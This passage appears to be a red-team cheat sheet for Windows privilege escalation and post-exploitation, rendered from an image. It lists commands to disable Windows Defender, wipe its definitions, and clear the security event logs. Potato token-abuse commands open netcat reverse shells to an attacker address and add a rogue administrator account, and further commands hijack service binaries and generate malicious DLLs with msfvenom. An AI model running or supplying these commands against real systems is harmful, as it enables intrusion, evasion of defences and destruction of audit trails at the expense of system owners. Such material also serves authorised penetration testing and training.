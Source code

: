 Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct -ErrorAction Stop
Get-MpComputerStatus
sc query windefend
  
### Disable Windows Defender
sc config WinDefend start= disabled
Set-MpPreference -DisableRealtimeMonitoring $true
"%ProgramFiles%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
  
### Clear Event Log
Clear-EventLog -LogName Application, Security
  
### Access Tokens
[HackTricks Token Abuse](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)
  
SeImpersonatePrivilege → Potato Attacks
[SweetPotato](https://github.com/CCob/SweetPotato), [GodPotato](https://github.com/BeichenDream/GodPotato)
SweetPotato.exe -p nc.exe -a "-nv [ip] [port] -e cmd" &
GodPotato.exe -cmd "nc -nv [ip] [port] -e cmd" &
  
GodPotato.exe -cmd "net user [username] [password] /add"
GodPotato.exe -cmd "net localgroup Administrators [username] /add"
runascs [username] [password] cmd -b -r [attacker ip]:[port]
  
SeRestorePrivilege → [SeRestoreAbuse](https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe)
  
### PowerShell History
Get-History
(Get-PSReadlineOption).HistorySavePath
- type [path]
    
  
### Service Permissions
Recommended: use a script like [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck)
sc qc [service]
sc sdshow [service] ⇒ list service permissions
icacls [path] ⇒ list folder/file permissions (eg. unquoted service path)
sc config [service] binpath= "[executable]" ⇒ reconfigure service
- [executable] can either be a service executable or cmd /c start /b [executable]
    
sc [start/stop] [service]
  
### DLL Hijacking
[Generate malicious DLL](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking#creating-and-compiling-dlls)
msfvenom [options] -f dll -o [file].dll
  
### Recent Folders/Files
dir %USERPROFILE%\AppData\Roaming\Microsoft\Windows\Recent
  